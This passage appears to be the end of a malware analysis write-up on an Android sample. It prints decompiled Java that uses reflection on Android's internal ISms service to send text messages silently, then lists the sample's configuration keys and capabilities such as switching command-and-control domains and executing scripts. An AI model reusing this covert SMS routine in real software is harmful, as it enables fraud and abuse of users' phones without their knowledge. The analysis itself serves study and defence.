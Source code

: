 ```java
public boolean sendSMS(int arg12, String arg13, String arg14) {
        boolean v6;
        Context v0 = this.mContext;
        if(arg12 == 0) {
            try {
                String v3 = "isms";
                goto label_3;
            label_78:
                if(arg12 == 1) {
                    v3 = "isms2";
                }
                else {
                    throw new Exception("can not get service which for sim \'" + arg12 + "\', only 0,1 accepted as values");
                }

            label_3:
                Method v2 = Class.forName("android.os.ServiceManager").getDeclaredMethod("getService", String.class);
                v2.setAccessible(true);
                Object v4 = v2.invoke(null, v3);
                v2 = Class.forName("com.android.internal.telephony.ISms$Stub").getDeclaredMethod("asInterface", IBinder.class);
                v2.setAccessible(true);
                Object v5 = v2.invoke(null, v4);
                if(Build$VERSION.SDK_INT < 18) {
                    v5.getClass().getMethod("sendText", String.class, String.class, String.class, PendingIntent.class, PendingIntent.class).invoke(v5, arg13, null, arg14, null, null);
                }
                else {
                    v5.getClass().getMethod("sendText", String.class, String.class, String.class, String.class, PendingIntent.class, PendingIntent.class).invoke(v5, v0.getPackageName(), arg13, null, arg14, null, null);
                }

                v6 = true;
                return v6;
            }
}
```

### Get action from SharedPreference
- Boot_conf
- Call_conf
- Cmd_conf
- Network_conf
- Power_conf
- SMS_conf
- Start_conf
- Timeout_conf
- Timers_conf

### Other behavior
- Change c2 domain
- Execute js script
- etc...

## Q & A
If you have any questions, please comment in the comment area，I will answer.Thank you for reading.
